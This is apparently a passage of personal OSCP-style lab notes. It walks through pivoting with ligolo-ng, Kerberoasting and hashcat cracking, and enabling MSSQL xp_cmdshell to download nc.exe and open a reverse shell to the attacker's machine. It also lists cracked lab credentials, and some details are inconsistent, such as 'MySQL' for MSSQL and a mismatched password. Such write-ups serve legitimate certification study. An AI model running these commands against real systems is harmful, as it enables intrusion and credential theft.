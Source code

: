 	# Start tunnel
	ligolo-ng>> start
	
	# Setup listeners for reverse shell & http server
	ligolo-ng>> listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 # revsh
	ligolo-ng>> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:80 # http
	```
### Internal Server Enumeration
- Crackmapexec to check for WinRM paths from MS01
	- No paths
	- None of the hashes/passwords worked, need to find another angle
### Kerberoasting
- Use impacket-GetUserSPNs to identify and abuse some of the services
	![[Pasted image 20250217141421.png]]
	- sql_svc on MS02 looks interesting
	```shell
	# Kerberoasting using impacket-GetUserSPNs (Kali)
	kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.118.146 -outputfile hashes.kerberoast oscp.exam/eric.wallows
	
	# Crack the TGS-REP hash with hashcat
	kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
	```
	- sql_svc:Dolphin1
	- web_svc:Diamond1
- Test credentials
	![[Pasted image 20250217141748.png]]
- If crackmapexec fails, use NetExec (NXE):
	![[Pasted image 20250217145408.png]]
## MS02 - 10.10.118.148
### Initial Access
- Use impacket-mssqlclient to connect to the MySQL db in MS02
	- `impacket-mssqlclient sql_svc:Dolphin@10.10.118.148 -windows-auth`
- Once in, we can use the built-in commands to download nc.exe and connect back to our Kali as a reverse shell
	```sql
	mysql> EXECUTE sp_configure 'show advanced options' 1;
	mysql> RECONFIGURE;
	mysql> EXECUTE sp_configure 'xp_cmdshell', 1;
	mysql> RECONFIGURE;
	mysql> EXECUTE xp_cmdshell 'powershell wget http://10.10.118.147:1234/nc.exe -outfile C:\Users\Public\nc.exe'
	mysql> EXECUTE xp_cmdshell 'C:\Users\Public\nc.exe - e powershell 10.10.118.147 4444'
	# Remember to setup listening port on Kali
	```
### Initial Enumeration
- NT Service\MSSQL$SQLEXPRESS has SeImpersonatePrivilege --> PrintSpoofer
	![[Pasted image 20250217150829.png]]